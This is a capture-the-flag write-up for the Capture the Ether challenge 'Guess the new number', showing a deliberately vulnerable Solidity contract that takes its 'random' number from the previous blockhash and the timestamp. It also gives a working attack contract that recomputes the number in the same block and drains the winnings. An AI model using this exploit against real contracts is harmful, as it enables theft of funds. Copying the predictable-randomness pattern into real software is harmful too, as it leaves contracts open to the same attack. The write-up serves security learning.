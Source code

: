 # Catch the Ether 4: Guess the NEW number

Random numbers cannot be created inside solidity, oracles are suggested

## The Task Intro

The number is now generated on-demand when a guess is made.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## The Solution

The subtile difference to the task before is, that the "random" or "secret" number now is calculated in a function and not in the constructor. This time it is not possible to look anything up from etherscan, this must be done in code, I chose a smart contract. So I precalculated the secret first in my attack contract, then sent the guess to the contract. Call the eth back from the payback function. Important was the receive function, which was called in solidity version 0.4.21 just function() - that was the most research I needed to do for this challenge.

Done 🎉️.

```apache
contract Crack {
    GuessTheNewNumberChallenge gtnnc;

    function Crack(GuessTheNewNumberChallenge _gtnnc) public payable {
        gtnnc = _gtnnc;
    }

    function attack() public payable {
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
        gtnnc.guess.value(msg.value)(answer);
    }

    function payback() public {
        msg.sender.transfer(this.balance);
    }

    function() public payable {}
```
